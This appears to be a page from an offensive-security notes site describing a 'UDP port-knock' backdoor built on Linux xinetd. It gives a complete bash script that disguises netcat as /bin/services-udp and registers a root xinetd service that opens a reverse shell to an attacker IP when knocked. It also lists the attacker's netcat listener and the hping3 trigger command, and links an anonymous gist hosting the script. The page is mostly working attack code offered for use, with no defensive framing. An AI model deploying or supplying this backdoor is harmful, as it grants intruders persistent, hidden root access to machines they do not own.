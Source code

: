 # Xinetd UDP portnock

thia utilizes the built-in “xinetd” daemon, which is used to manage network-based services on Linux systems. Xinetd listens for incoming requests to ports we can define, and when a specific request is received, we can have it execute a command of our choosing. Of course, this is useful to us!

For our purposes, we will create a custom xinetd service, which listens on a UDP port which we can send a single UDP packet to. Once that packet is received to the port we define, it will initiate a netcat reverse shell back to our attacker system. We’re calling it a UDP port-knock backdoor because once we “knock” on our UDP port, it gives us an immediate reverse shell

Port knocking is a well-known concept, but we’re implementing it differently, not requiring any third-party software.

{% embed url="https://en.wikipedia.org/wiki/Port_knocking" %}

Another bonus is it will persist across reboots

To create our xinetd backdoor, we should follow these steps:

Step 1. On the target machine, we’re going to create a custom xinetd service. We’ve put together a bash script (xinetd\_server.sh) you can simply run on the target host, and it can be downloaded here:

{% embed url="https://gist.github.com/anonymous/3cb8e474b6bb3fd3787bda1e1a55cf56" %}

![](<../../../.gitbook/assets/1 (23).png>)

```
#!/bin/bash

cp /bin/nc /bin/services-udp
echo "service services-udp" >/etc/xinetd.d/services-udp
echo "{" >> /etc/xinetd.d/services-udp
echo "		server = /bin/services-udp" >> /etc/xinetd.d/services-udp
echo "		server_args = <attacker_IP> <attacker_PORT> -e /bin/bash" >> /etc/xinetd.d/services-udp
echo "		protocol = udp" >> /etc/xinetd.d/services-udp
echo "		user = root" >> /etc/xinetd.d/services-udp
echo "		socket_type = dgram" >> /etc/xinetd.d/services-udp
echo "		wait = yes" >> /etc/xinetd.d/services-udp
echo "		flags = IPv4" >> /etc/xinetd.d/services-udp
echo "}" >> /etc/xinetd.d/services-udp

echo "services-udp	65534/udp       # services-udp" >> /etc/services

/etc/init.d/xinetd stop
/etc/init.d/xinetd start
```

The following script, when executed, will create a new xinetd service called “services-udp.” The “services-udp” custom service will be configured to listen on port 65534 UDP on the target machine. It will also require that netcat (nc) is on the target host in the usual /bin/ directory. It will copy the nc executable to a file called “/bin/services-udp.” We’re obscuring netcat as another file in this case.

Step 2. On the attacker machine, simply start up a netcat listener with the same  you defined in the xinetd\_server.sh script before running it. In the below example, we’re using 4444:

```
nc -nlvp 4444
```

step 3. For the final step, we will use a tool called hping3 to send a single UDP packet to port 65534 on the target host, at which point, our custom “services-udp” netcat binary will be triggered, and send us a reverse shell. The hping command we will use is:

```
hping3 -2 -c 1 <target IP> -p 65534
```

![](<../../../.gitbook/assets/1 (24).png>)













